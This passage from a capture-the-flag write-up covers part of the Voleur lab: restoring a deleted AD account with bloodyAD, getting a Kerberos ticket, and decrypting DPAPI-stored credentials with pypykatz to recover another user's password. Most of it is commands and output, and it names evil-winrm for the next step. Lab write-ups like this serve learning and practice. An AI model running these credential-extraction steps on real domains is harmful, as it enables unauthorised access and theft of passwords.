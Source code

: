 ```
faketime -f "+8h" bloodyAD -d voleur.htb -u 'svc_ldap' -k --host DC.voleur.htb set restore todd.wolfe
[+] todd.wolfe has been restored successfully under CN=Todd Wolfe,OU=Second-Line Support Technicians,DC=voleur,DC=htb
```

With the account enabled we can then request a ticket and export it similar to what we did before.

```shell
faketime -f "+8h" getTGT.py -dc-ip 10.10.11.76 voleur.htb/todd.wolfe:NightT1meP1dg3on14
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in todd.wolfe.ccache

export KRB5CCNAME=todd.wolfe.ccache 
```

## Exposing the DPAPI Secret
Since this user belongs to the Second-Line Support Technician's group he may have access to more files inside the IT share. To verify this I again download the entire share into my local machine. We can see that this user has a backup of his netire home directory. We can navgiate to the `/IT/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft` directory to view that this user has some DPAPI credentials stored inside roaming. To decrypt these keys we need the user's password and SID. The SID can be found inside of the `/Protect` folder and we are given the password of this user in the spreadsheet.

I used pypykatz to decrypt the password. We first need to get the prekey which we can do with the following command:
```
pypykatz dpapi prekey password 'S-1-5-21-3927696377-1337352550-2781715495-1110' 'NightT1meP1dg3on14' | tee pkf
```

Once done we can then create the masterkey file with the following command:

```
pypykatz dpapi masterkey Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88 pkf -o mkf
```

Finally we can decrypt the password:

```
pypykatz dpapi credential mkf Credentials/772275FAD58525253490A9B0039791D3 
type : DOMAIN_PASSWORD (2)
last_written : 133826289190701021
target : Domain:target=Jezzas_Account
username : jeremy.combs
unknown4 : b'q\x00T\x003\x00V\x009\x00p\x00L\x00X\x00y\x00N\x007\x00W\x004\x00m\x00'
```

We get the password of the jeremy.combs user. The data encoding is messed up so I use python to convert it into utf-16

```
python3
Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> data = b'q\x00T\x003\x00V\x009\x00p\x00L\x00X\x00y\x00N\x007\x00W\x004\x00m\x00'
>>> data.decode('utf-16le')
'qT3V9pLXyN7W4m'
```
## Reading the New Share
This user is able to PSRemote into the domain controller and he has a higher level of suppport. Which means we might again be able to read sensitive files we did not have access to earlier. Before using evil-winrm remember to get a valid ticket and export it. Navitating to the Third Line Support share we can see a note, a backups folder, whcih we do not have access to and private key for a user.

